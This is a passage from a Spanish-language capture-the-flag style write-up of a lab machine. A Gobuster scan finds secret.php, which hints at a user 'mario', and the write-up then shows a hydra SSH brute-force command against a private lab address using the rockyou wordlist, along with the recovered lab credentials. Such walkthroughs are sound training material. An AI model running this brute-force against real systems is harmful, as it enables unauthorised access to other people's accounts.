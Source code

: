 Gobuster encuentra el archivo **secret.php**, que inspeccionamos. El archivo muestra un mensaje indicando que la web no puede ser hackeada y menciona un posible usuario: **mario**.
<p align="center">
    <img src="../img/Pasted_image_20241207220242.png" width="500">
</p>

---

## Explotación



Con el puerto **22** abierto y el usuario **mario**, intentamos una fuerza bruta al protocolo **SSH** usando **hydra**:
```
hydra -l mario -P /usr/share//wordlists/rockyou.txt ssh://172.18.0.2
```
<p align="center">
    <img src="../img/Pasted_image_20241207220630.png" width="500">
</p>

Obtenemos las credenciales:

- **Usuario:** mario
- **Contraseña:** chocolate

